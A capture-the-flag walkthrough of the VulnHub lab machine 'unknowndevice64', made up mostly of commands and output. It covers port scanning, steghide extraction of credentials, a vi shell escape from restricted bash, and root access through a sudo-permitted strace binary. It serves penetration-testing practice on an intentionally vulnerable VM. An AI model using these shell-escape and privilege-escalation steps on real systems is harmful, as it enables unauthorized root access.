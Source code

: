 # unknowndevice64  
  
**URL: https://www.vulnhub.com/entry/unknowndevice64-1,293/**  
  
### NMAP  
  
root@kali:~# nmap -p- -A 192.168.111.3  
>Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-17 04:32 CDT  
>mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers  
>Nmap scan report for 192.168.111.3  
>Host is up (0.00055s latency).  
>Not shown: 999 closed ports  
>PORT      STATE SERVICE VERSION  
>1337/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)  
>| ssh-hostkey:   
>|   2048 b9:af:04:6d:f1:8c:59:3a:d6:e1:96:b7:f7:fc:57:83 (RSA)  
>|   256 12:68:4c:6b:96:1e:51:59:32:8a:3d:41:0d:55:6b:d2 (ECDSA)  
>|_  256 da:3e:28:52:30:72:7a:dd:c3:fb:89:7e:54:f4:bb:fb (ED25519)  
>31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)  
>|_http-title:    Website By Unknowndevice64     
>MAC Address: 08:00:27:36:D1:DD (Oracle VirtualBox virtual NIC)  
>Device type: general purpose  
>Running: Linux 3.X|4.X  
>OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4  
>OS details: Linux 3.2 - 4.9  
>Network Distance: 1 hop  
  
### HTTP  
  
Checking the source code of the html page we find this clue:  
  
"Not a visible enthusiasm but a <span style="color:red">h1dd3n</span> one, an excitement burning with a cold flame."  
  
And a comment:  
  
\<!-- key_is_h1dd3n.jpg --\>  
  
It is an image with just the following message:  
  
>HIDDEN SECRETS  
  
Let's download it and play a little:  
  
root@kali:~# wget hxxp://192.168.111.3:31337/key_is_h1dd3n.jpg  
>--2019-04-17 04:37:27--  hxxp://192.168.111.3:31337/key_is_h1dd3n.jpg  
>Connecting to 192.168.111.3:31337... connected.  
>HTTP request sent, awaiting response... 200 OK  
>Length: 5386 (5.3K) [image/jpeg]  
>Saving to: ‘key_is_h1dd3n.jpg’  
>  
>key_is_h1dd3n.jpg                     100%[========================================================================>]   5.26K  --.-KB/s    in 0s        
>  
>2019-04-17 04:37:27 (365 MB/s) - ‘key_is_h1dd3n.jpg’ saved [5386/5386]  
  
Let's try to extract a message with the previous clue:  
  
root@kali:~# steghide extract -sf key_is_h1dd3n.jpg -p h1dd3n  
>wrote extracted data to "h1dd3n.txt".  
  
root@kali:~# cat h1dd3n.txt   
> ++++++++++\[>+>+++>+++++++>++++++++++<<<<-\]>>>>+++++++++++++++++.-----------------.<----------------.--.++++++.---------.>-----------------------.<<+++.++.>+++++.--.++++++++++++.>++++++++++++++++++++++++++++++++++++++++.-----------------.  
  
Easy. It looks like brainfuck code. Decodeing the file we get credentials:  
  
>ud64:1M!#64@ud  
  
### SSH  
  
We log in the ssh using the credentials we just got:  
  
root@kali:~# ssh -l ud64 -p 1337 192.168.111.3  
>The authenticity of host '[192.168.111.3]:1337 ([192.168.111.3]:1337)' can't be established.  
>ECDSA key fingerprint is SHA256:i17eNafYZbuhnBTVOd3NGK7az/9ZPgwR8GQzqGenV9g.  
>Are you sure you want to continue connecting (yes/no)? yes  
>Warning: Permanently added '[192.168.111.3]:1337' (ECDSA) to the list of known hosts.  
>ud64@192.168.111.3's password:   
>Last login: Mon Dec 31 08:37:58 2018 from 192.168.56.101  
  
ud64@unknowndevice64_v1:~$ id  
>uid=1000(ud64) gid=1000(ud64) groups=1000(ud64)  
  
### Breaking out  
  
ud64@unknowndevice64_v1:~$ hostname  
>-rbash: hostname: command not found  
  
Great, a restricted bash shell... Let's see what we can doo...  
  
ud64@unknowndevice64_v1:~$ echo $PATH  
>/home/ud64/prog  
  
ud64@unknowndevice64_v1:~$ cd   
>.bash_history  .bash_profile  .config/       .screenrc      Desktop/       Documents/     Downloads/     Music/         Pictures/      Public/        Videos/        prog/          web/    
  
ud64@unknowndevice64_v1:~$ cd prog/  
>date    id      vi      whoami    
  
So we can open a text editor. It should be easy to break through:  
  
ud64@unknowndevice64_v1:~$ vi test  
  
We type :!/bin/bash  
  
bash-4.4$ id  
>uid=1000(ud64) gid=1000(ud64) groups=1000(ud64)  
  
bash-4.4$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin  
  
### Privilege escalation  
  
What could we do with sudo privileges?  
  
bash-4.4$ sudo -l  
>User ud64 may run the following commands on unknowndevice64_v1:  
>    (ALL) NOPASSWD: /usr/bin/sysud64  
  
What is sysud64?  
  
bash-4.4$ /usr/bin/sysud64 -h 
>usage: strace [-CdffhiqrtttTvVwxxy] [-I n] [-e expr]...  
>              [-a column] [-o file] [-s strsize] [-P path]...  
>              -p pid... / [-D] [-E var=val]... [-u username] PROG [ARGS]  
>   or: strace -c[dfw] [-I n] [-e expr]... [-O overhead] [-S sortby]  
>              -p pid... / [-D] [-E var=val]... [-u username] PROG [ARGS]  
  
Okay, it's just "strace". Let's try it out. Just remember to put the -o flag to silence the output.  
  
bash-4.4$ sudo /usr/bin/sysud64 -o /dev/null id  
>uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)  
  
  
Now we open a shell and profit ^^  
  
bash-4.4$ sudo /usr/bin/sysud64 -o /dev/null /bin/bash  
root@unknowndevice64_v1:/home/ud64# id  
>uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)  
  
root@unknowndevice64_v1:~# md5sum /root/flag.txt   
>0ff8fb9017a986916260a436371ed330  /root/flag.txt  
